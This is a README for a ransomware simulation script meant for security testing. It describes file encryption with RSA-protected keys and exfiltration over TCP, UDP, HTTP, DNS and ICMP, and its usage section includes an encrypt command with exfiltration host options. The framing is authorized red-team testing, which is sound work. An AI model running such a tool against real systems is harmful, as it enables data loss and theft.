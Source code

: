# Ransomware-Simulation

A sophisticated script for simulating ransomware behavior to test security system resilience, supporting file encryption, data exfiltration over multiple protocols, and configurable via CLI.

## Overview

This repository contains a sophisticated and secure script for simulating ransomware behavior in a controlled and authorized environment. The script is designed to help cybersecurity researchers and professionals test the resilience of their security systems against ransomware attacks, including the encryption of files and exfiltration of data.

## Features

- **File Encryption**: Encrypts files using a unique symmetric key for each file.
- **Asymmetric Key Encryption**: Secures symmetric keys using RSA encryption.
- **Data Exfiltration**: Supports multiple protocols for exfiltrating encrypted data and keys, including TCP, UDP, HTTP, HTTPS, DNS, and ICMP.
- **Exclusion List**: Allows specifying files or directories to exclude from encryption.
- **Network Transmission**: Sends encrypted keys and data to specified IP addresses and ports.
- **Configurable via CLI**: Provides a comprehensive command-line interface for specifying encryption actions, directories, and exfiltration parameters.

## Usage

1. **Install Required Libraries**:
   ```bash
   pip install cryptography dnslib requests scapy
   ```

2. **Run the Script**:
   - To encrypt files and exfiltrate data and keys:
     ```bash
     python ransomware_sim.py encrypt /path/to/test/directory --exfil-ip <exfil_ip> --exfil-port <exfil_port> --exfil-protocol <tcp|udp|http|https|dns|icmp> --key-exfil-ip <key_exfil_ip> --key-exfil-port <key_exfil_port> --key-exfil-protocol <tcp|udp|http|https|dns|icmp> --exclude-file exclude.json
     ```
   - To decrypt files:
     ```bash
     python ransomware_sim.py decrypt /path/to/test/directory --exclude-file exclude.json
     ```

## Important Notes

- **Controlled Environment**: Ensure this script is run in a controlled and isolated environment to prevent unintended data loss.
- **Legal and Ethical Use**: This tool is intended for legal and authorized testing purposes only. Ensure compliance with all relevant laws and organizational policies.
